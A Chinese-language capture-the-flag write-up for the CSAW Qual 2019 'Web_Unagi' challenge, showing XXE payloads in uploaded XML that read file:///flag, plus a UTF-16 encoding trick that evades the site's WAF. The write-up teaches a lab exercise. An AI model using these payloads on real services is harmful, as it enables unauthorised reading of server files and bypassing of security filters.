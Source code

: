 # \[CSAWQual 2019]Web\_Unagi

## \[CSAWQual 2019]Web\_Unagi

## 考点

* XXE
* UTF-16编码绕过XXE过滤

## wp

在Upload处看到上传文件的案例

![](../.gitbook/assets/czqvbNg07DMHpC-iXi\_al0r-Wn4CgrzBp\_SFAiUP\_oQ.png)

点进去是个XML文档，这里文档的内容和User处的内容是一样的，并且User里面多了Intro元素，可以大胆猜测是XXE

![](../.gitbook/assets/ChlVAKcvE1hmNROLlDO7UQoOtIo7XEx7a1PrRomWJQw.png)

XML格式在这**XML格式**

![](../.gitbook/assets/z\_1oosfEH8bpBgmqrBcsa7Pw5G8R3cdZLfntq4A1uXk.png)

在about处提示flag在根目录下

先写一个XML文件上传

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE users [
<!ENTITY flag SYSTEM "file:///flag" >]>
<users>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>CSAW2019</group>
        <flag>&flag;</flag>
    </user>
</users>
```

提示**WAF blocked uploaded file. Please try again**

需要进行绕过，编码改成`utf-16`即可

```xml
<?xml version="1.0" encoding="utf-16"?>
<!DOCTYPE users [
<!ENTITY flag SYSTEM "file:///flag" >]>
<users>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <intro>&flag;</intro>
    </user>
</users>
```

发现是上传成功的

## 小结

1. XXE过滤可以使用编码绕过
